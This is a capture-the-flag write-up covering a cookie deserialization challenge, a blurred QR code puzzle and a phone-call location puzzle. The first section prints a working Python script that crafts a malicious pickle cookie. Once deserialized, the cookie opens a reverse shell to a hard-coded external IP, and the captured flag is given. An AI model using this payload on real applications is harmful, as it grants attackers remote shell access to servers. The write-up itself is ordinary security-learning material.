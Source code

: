

**Challenge** - **Pickle Me This Cookie Jar Shenanigans!**  

> Ever wondered what your cookies are hiding? This challenge dives into the mysterious world of serialized cookies with a twist of deserialization vulnerability. Use your Python skills and the pickle module to create a mischievous cart item that leads to a netcat reverse shell. Follow the breadcrumbs, set your traps, and see if you can hack your way to victory

TBH at starting i know nothing about deserialization vulnerability seen few youtube video's & blogs to know how it work's 
 ( https://www.youtube.com/watch?v=qt15PnF8x-M ) ,( https://www.youtube.com/watch?v=NfLGOuHLjIo ) Helped me a lot.

 
```shell
#!/usr/bin/env python3
import pickle
import os
import base64
import requests

class RCE(object):
    def __reduce__(self):
        return (os.system,('''export RHOST="54.226.234.236";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")' ''',))

def main():
    pickledPayload = base64.b64encode(pickle.dumps(RCE())).decode()
    print(f'[*] Generated malicious cookie payload: {pickledPayload}')

if __name__ == '__main__':
    main()
```

After executinh rever shell i got controll in flag.md there is a flag **CM{c0Ngr47S_y0u_ArE_A_Ser1A1_KI11er}**

----------------

 
**Category** - **Forensic**  
**Challenge** - **QR-azy Mystery!**  

> Can you turn this pixel mush into glory?

- Please view file in Challenge-Files/goneeeee.png.

  Easy challenge, I used my phone unblur option on my phone & then scanned with google len's that worked for me.



**Challenge** - **Dialing for Danger**  


>Oops! Two not-so-smooth criminals just spilled the beans during a phone chat on a brick phone! 📞🎶 Crack the location before their next mischief unfolds. Find the place befor attack
>
>Flag: Wrap it in CM { First_second_third }
